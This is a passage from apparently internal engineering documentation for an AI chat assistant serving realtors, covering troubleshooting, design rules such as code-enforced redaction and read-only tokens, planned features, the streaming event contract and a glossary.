

| symptom | most likely | where |
|---|---|---|
| every realtor gets 401, `/health` green | `TOKEN_SECRET` does not match the portal | `/doctor` → `token_verification` |
| `unknown action: aiindex` | code pushed but the deployment not republished | edit the existing deployment, never "New deployment" |
| answers say a real project does not exist | a name did not resolve | `--dev` shows the tool call; `tools.get_project` |
| a price filter returns nothing | the column is empty, not the filter broken | `/doctor` → `data_quality` |
| a price is read wrongly | a format the parser refuses | `parsing.py`, and add the case to `test_parsing.py` |
| a sheet edit is not visible | the five-minute or six-hour cache | `/doctor?fresh=1` |
| chat hangs with no `done` | a runtime that raised | the stream always ends in `done` or `error`; if not, look at `chat.py`'s guard |
| a realtor gets 429 | the hourly ceiling | expected past 60 questions/hour; `Retry-After` says when |
| history is gone but answers work | the store is down or unconfigured | `/doctor` → `conversation_store`; persistence degrades by design |
| "my question failed" | anything | ask for the `X-Request-Id` from the response, then `grep` the logs for it — the audit line has the user, tools, timing and error |
| the whole portal is slow | Apps Script's daily runtime is shared | see invariant #4 |

Every question leaves one `aura.audit` log line whether it succeeded or not, so
"what happened at 3pm" is a `grep`, not a reconstruction. On Railway:
`railway logs --service aura-chat | grep aura.audit`.

---

## Part XI — The rules that hold it together

Five ideas explain most of the code.

### 1. Depend on interfaces, construct in one place

Every external dependency sits behind a `Protocol`, with one adapter, built only
in `container.py`. `tests/test_layering.py` walks the AST of every file and fails
if `domain/` imports anything external, if `tools.py` imports an adapter, or if
anything but the container constructs one.

### 2. Guarantees live in code; requests live in the prompt

The prompt holds what the model is *asked* to do: tone, tool choice, what to say
when it cannot answer. It does **not** mention redaction, read-only access, or
the result cap — those are enforced structurally, because a prompt instruction is
a request and this agent answers questions about other people's money.

The clearest expression of this is the redacting repo. It is not that it filters
— the previous version filtered too, in a helper each tool had to remember to
call. It is that **there is no code path that returns something it has not
filtered.** `test_layering` fails if `tools.py` so much as mentions `for_viewer`.

The same lesson appeared again in a different costume. Told to search when a
lookup missed, the model often did not — and told a realtor their own project did
not exist. Instructing a model is a request; handing it the data is a guarantee.
So `get_project` now does the search itself and returns the candidates.

### 3. Never guess a number

An ambiguous value returns `None` and the project drops out of the filter. A
missing answer is recoverable; a confident wrong one is not. `is_blank()` is
public precisely so callers can tell *"nobody filled this in"* from *"the parser
could not read this"* — both produce `None` and mean opposite things about the
data's health.

### 4. The realtor's own token is the credential

Forwarded unchanged to the portal. No service account, no standing privilege.
Whatever the portal will not show that realtor, it will not show Aura Chat, and a
revoked realtor loses both in the same window.

### 5. Persistence observes; it never steers

Storage and audit both work by watching the event stream the client already
receives — accumulate the text, catch the ids, write once at the end, in a
`finally`. Nothing in the agent adapter knows a database exists. The corollary
is the degradation rule: a dead database costs history and never the answer,
because the observer failing must not take the observed down with it.

---

## Part XII — What is not built yet

| | |
|---|---|
| **Document retrieval** | Phase 5. PDF → chunks → pgvector, as the *fallback* when the columns cannot answer. The biggest remaining piece of the original spec. |
| **Per-project deep links** | Blocked on data, not code: 16 of 162 projects share an id slug, so a link would open the wrong one. Cards link to Builder/Drive/Website instead. |
| **Source citations** (AUR-32/49) | Blocked on the date parser — see [known-issues 1](known-issues.md). |
| **A designed desktop layout** | It works — it is the phone column, centred. |
| **Incentive search, proximity search** | [known-issues 12 and 13](known-issues.md). |

Earlier editions of this table listed the chat screen, conversation storage,
audit logging and rate limiting. All four are built and live — Parts IV, V and
III respectively — and prices now have data behind them.
[limitations.md](limitations.md) is the fuller honest list.

---

## Appendix A — The event contract

Everything `/chat` can emit.

| event | when | shape |
|---|---|---|
| `start` | first, always | `{type, mode, conversation_id}` |
| `tool` | the model calls a tool | `{type, tool, args}` |
| `tool_result` | the tool returns | `{type, tool, count}` |
| `text` | each delta of the answer | `{type, text}` |
| `projects` | after the answer | `{type, projects: [...]}` |
| `done` | last, on success | `{type, usage: {requests, input_tokens, output_tokens}}` |
| `error` | instead of `done` | `{type, detail}` |

A stream ends with exactly one of `done` or `error`. A client waiting for `done`
will never wait forever.

## Appendix B — Glossary

| Term | Meaning here |
|---|---|
| **Port** | A `Protocol` describing what something must do, with no implementation |
| **Adapter** | One concrete implementation of a port |
| **Composition root** | `container.py`, the only place adapters are built |
| **Claims** | The verified contents of a token: who is asking |
| **Viewer** | Role × mode: what this particular screen may show |
| **Client Mode** | The realtor has turned their phone toward a buyer |
| **SSE** | Server-Sent Events: one HTTP response written to over time |
| **Tool** | A Python function the model may ask to run |
| **The portal** | The existing Apps Script web app and its Sheets |
| **`aiindex`** | The one read-only action Aura Chat added to the portal |
| **The store** | `ConversationStore` — conversations, messages and feedback in Postgres |
| **`conversation_id`** | The thread a question continues. A label, never a capability — every read also carries the user |
| **`sources`** | The project ids+names an answer used; replayed to the model so follow-ups can name real ids |
| **The audit line** | One JSON log line per question: who, what, which tools, cost, outcome |
| **Ceiling** | A sliding-window request limit; over it is 429 with `Retry-After` |
